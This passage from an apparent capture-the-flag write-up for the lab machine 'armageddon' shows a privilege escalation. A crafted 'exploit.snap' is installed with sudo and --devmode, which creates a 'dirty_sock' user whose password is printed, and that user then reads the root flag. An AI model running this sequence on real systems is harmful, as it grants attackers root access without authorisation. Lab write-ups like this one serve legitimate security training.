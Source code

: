 Let's transfer the file to the target machine and execute the following command to run it:
```console
[brucetherealadmin@armageddon tmp]$ sudo /usr/bin/snap install exploit.snap
error: cannot find signatures with metadata for snap "exploit.snap"
```

To resolve the error mentioned, we need to include the `--devmode` flag:
```console
[brucetherealadmin@armageddon tmp]$ sudo /usr/bin/snap install --devmode exploit.snap
dirty-sock 0.1 installed
[brucetherealadmin@armageddon tmp]$ ls /home
brucetherealadmin  dirty_sock
```

Now that we have created a new user. According to the article, the password for the user `dirty_sock` is `dirty_sock`. Let's attempt to switch to this user using the su command:
```console
[brucetherealadmin@armageddon tmp]$ su dirty_sock
Password: 
[dirty_sock@armageddon tmp]$ sudo cat /root/root.txt
[sudo] password for dirty_sock: 
31c261463ea41b73b3c2f9e3f60fdaf
```

And we get the root flag ```31c261463ea41b73b3c2f9e3f60fdaf```.